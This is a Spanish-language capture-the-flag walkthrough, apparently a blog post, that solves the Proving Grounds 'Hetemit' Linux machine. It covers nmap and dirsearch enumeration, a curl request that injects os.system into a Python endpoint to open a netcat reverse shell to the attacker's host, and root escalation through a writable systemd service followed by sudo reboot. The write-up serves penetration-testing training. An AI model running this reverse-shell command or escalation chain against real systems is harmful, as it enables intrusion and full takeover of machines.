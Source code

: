 ```yaml
---
layout: post
title: Hetemit (Linux - Intermediate) - Proving Grounds Practice
date: 11.06.2025
categories: [Linux, Proving Grounds, Proving Grounds Practice, Walkthrough, OSCP, Tutorial]
tag: [Proving Grounds Practice, Proving Grounds, Linux, Privilege Escalation, SUDOERS, SUDO, Dirsearch, Curl, Python, Flask, Werkzeug, Werkzeug httpd 1.0.1 (Python 3.6.8), Werkzeug httpd 1.0.1, Fuzzing, SystemD, systemd, /etc/systemd/system/pythonapp.service, File Permissions, Reboot, /sbin/reboot, Intermediate]
---
```


# Resolución paso a paso de la máquina Hetemit:

## ENUMERACIÓN

### NMAP

- Realizamos el primer escaneo para ver que puertos están abiertos:

```bash
nmap -p- --open -v -n 192.168.103.117 -oG allPorts
```

![image.png](assets/img/post-img/Hetemit/image.png)

- Enumeramos los **SERVICIOS ACTIVOS** en los **PUERTOS** que hemos descubierto:

```bash
nmap -sCV -p22,139,445,631,2181,2222,8080,8081,46295 --min-rate 5000 192.168.229.98 -oN targeted
```

![image.png](assets/img/post-img/Hetemit/image%201.png)

![image.png](assets/img/post-img/Hetemit/image%202.png)

- Vemos que hay tres servidores **WEB** diferentes además de otros servicios como **FTP**, **SSH**, **SMB**… Después de un buen rato de enumeración realizando **FUZZING** en contra los tres servidores (**80**, **18000** y **5000**) descubrimos poca cosa..

- Una de las cosas que descubrimos es un panel de **LOGIN** que no nos devuelve ningún mensaje de **ERROR** cuando ponemos una credenciales invalidas, eso nos dificultaría mucho realizar **FUERZA BRUTA** ya que no podemos saber cuando hemos acertado con las credenciales y cuando no. Además también hay un **PANEL DE REGISTRO** pero no podemos registrarnos como nuevos usuarios ya que nos pide un **CÓDIGO DE INVITACIÓN** que no tenemos. También parece que si pudiéramos registrarnos podríamos aprovecharnos del campo de subida de archivos para intentar colar una **WEBSHELL** o una REVERSE SHELL, no obstante descartamos esta opción por ahora.

![image.png](assets/img/post-img/Hetemit/image%203.png)

![image.png](assets/img/post-img/Hetemit/image%204.png)

### DIRSEARCH

- Continuamos enumerando  y analizando el puerto **50000** vemos que corre un **SERVIDOR WEB** con PYTHON (**Werkzeug httpd 1.0.1 (Python 3.6.8)**). Realizando **FUZZING** con **DIRSEARCH** vemos que hay un directorio **VERIFY y un directorio GENERATE** que es lo mismo que encontramos cuando accedemos a la página principal por el puerto **50000:**

```bash
dirsearch  -u http://192.168.103.117:50000 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x 403,400,404
```

![image.png](assets/img/post-img/Hetemit/image%205.png)

![image.png](assets/img/post-img/Hetemit/image%206.png)

![image.png](assets/img/post-img/Hetemit/image%207.png)

![image.png](assets/img/post-img/Hetemit/image%208.png)

## EXPLOTACIÓN

### Werkzeug httpd 1.0.1 (Python 3.6.8)

- Sabiendo que el servidor corre **PYTHON** la primera opción fue intentar lanzar alguna **REVERSE SHELL** directamente desde **CURL** pero no hubo manera. Sabemos que el formato en el que nos muestra la información es **JSON** o se parece mucho, incluso podemos pensar que estamos interactuando con alguna **API**. Al final realizamos una petición por **POST** con **CURL** pasándole con el parámetro **--DATA** la información, en este caso **CODE** nos hace pensar que está ejecutando código por detrás y debe ser con **PYTHON**, así que intentamos hacer una ejecución a nivel de sistema con **OS.SYSTEM** y lanzarnos la **SHELL**, y parece que funcionó:

```bash
curl -i http://192.168.243.117:50000/verify -X POST --data 'code=os.system("nc 192.168.45.154 18000 -e /bin/bash")'
```

![image.png](assets/img/post-img/Hetemit/image%209.png)

- Nos ponemos en escucha con **NC** por el puerto **18000**:

```bash
nc -lvnp 18000
```

![image.png](assets/img/post-img/Hetemit/image%2010.png)

## TRATAMIENTO DE LA TTY

- Realizamos el tratamiento de la **TTY** para poder trabajar más cómodos desde una **SHELL INTERACTIVA**:

```bash
script /dev/null -c bash

control+z

stty raw -echo; fg

reset xterm

export TERM=xterm-256color

export SHELL=bash

stty rows 52 columns 214 
```

- Una vez dentro de la máquina podemos acceder al directorio personal del usuario **CMEEKS** y leer la primera **FLAG**:

![image.png](assets/img/post-img/Hetemit/image%2011.png)

## ESCALADA DE PRIVILEGIOS

### SYSTEMD + SUDO REBOOT

- En este caso descubrimos que teníamos permisos en “**/etc/systemd/system/pythonapp.service**”.

![image.png](assets/img/post-img/Hetemit/image%2012.png)

> **SYSTEMD** es un sistema de **INICIALIZACIÓN** de **LINUX**. Es el proceso que se ejecuta con el **PID** número **1**, por lo que se arranca automáticamente cada vez que se arranque el sistema.
> 

- Al acceder al directorio y analizar el archivo descubrimos que como **GRUPO** estaba el usuario bajo el que estábamos corriendo, por lo que tenemos derechos de **ESCRITURA** sobre ese archivo. Al acceder al contenido vemos que en la variable **ExecStart**  ejecuta **FLASK** y podemos ver también en la variable **USER** que lo ejecuta bajo el usuario en el que estamos.

```bash
/etc/systemd/system/pythonapp.service
```

![image.png](assets/img/post-img/Hetemit/image%2013.png)

> Hay que tener en cuenta que para  que este método sea efectivo debemos poder reiniciar la máquina con **REBOOT**. En este caso, el usuario bajo el que nos encontramos puede ejecutar con permisos de **SUDO** el **“/SBIN/REBOOT”**.
> 

```bash
sudo -l
```

![image.png](assets/img/post-img/Hetemit/image%2014.png)

- Como tenemos privilegios de escritura sobre este archivo y sabemos que si reiniciamos la máquina con **REBOOT** se ejecutará, vamos a modificar el **SCRIPT** para que en lugar de **FLASK** nos lance una **REVERSE SHELL** y en lugar de hacerlo bajo nuestro usuario lo haga directamente como el usuario **ROOT**:
- Modificamos el **SCRIPT** para que nos lance la **REVERSE SHELL** bajo el usuario **ROOT** y modificamos también el tiempo para que sea un poco más de **15 segundos**, en este caso puse **60 segundos**:

![image.png](assets/img/post-img/Hetemit/image%2015.png)

- Reiniciamos el sistema como **SUDO** y nos ponemos en escucha con **NC** en nuestra máquina atacante por el puerto **50000**:

```bash
# Reiniciamos la máquina víctima mientras estamos en escucha con NC en nuestra máquina atacante:
sudo reboot
```

```bash
nc -lvnp 50000
```

![image.png](assets/img/post-img/Hetemit/image%2016.png)

![image.png](assets/img/post-img/Hetemit/image%2017.png)